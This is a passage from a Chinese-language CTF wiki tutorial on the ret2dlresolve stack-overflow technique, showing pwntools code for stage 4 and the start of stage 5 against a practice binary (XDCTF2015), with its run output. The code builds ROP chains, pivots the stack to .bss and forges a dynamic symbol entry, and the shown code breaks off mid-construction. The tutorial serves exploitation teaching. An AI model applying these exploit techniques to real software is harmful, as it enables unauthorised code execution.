 ```python

r.sendline(rop.chain())
r.interactive()
```

具体效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage4.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 128795
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

#### stage 5

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st_name指向我们自己构造的字符串。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

## making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
```
